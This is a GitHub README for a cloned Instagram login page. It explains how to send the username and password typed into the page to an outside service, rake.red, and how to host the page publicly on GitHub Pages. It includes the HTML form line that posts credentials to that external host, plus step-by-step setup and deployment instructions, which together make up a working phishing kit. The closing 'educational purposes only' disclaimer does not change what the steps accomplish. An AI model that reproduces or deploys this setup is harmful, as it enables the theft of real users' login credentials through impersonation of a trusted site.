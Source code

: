 # Insta Clone Login Page

This project is a clone of the Instagram login page with a feature that sends the user's username and password to the [rake.red](https://rake.red) website. This is useful for demonstration purposes or testing user authentication with external services.

## Getting Started

### Prerequisites


1. **Create an Account on Rake.red:**
   - Visit [rake.red](https://rake.red) and sign up for an account.
   - Once signed in, create a new project to get your unique API key.

2. **Clone this Repository:**
   ```bash
   git clone https://github.com/yourusername/instaclone-login.git
   cd instaclone-login
   Update the API Key in index.html:
3.**Update the API Key in index.html:**

Open the index.html file in your favorite code editor.
Locate the section where the API key is required.
Replace YOUR_API_KEY_HERE with the API key you obtained from rake.red.
html

<form action="https://rake.red/api/YOUR_API_KEY_HERE" method="POST">
    <!-- Form inputs for username and password -->
</form>

4.**Hosting on GitHub Pages**
Push the Project to GitHub:

Ensure your project is committed and pushed to a GitHub repository.
Enable GitHub Pages:

Go to the repository settings on GitHub.
Scroll down to the "GitHub Pages" section.
Select the branch you want to use (usually main or master) and save.
Access Your Hosted Page:

After enabling GitHub Pages, your InstaClone login page will be available at https://yourusername.github.io/instaclone-login.
Disclaimer
This project is for educational purposes only. Please be aware that using this project for malicious purposes, such as phishing, is illegal and unethical.

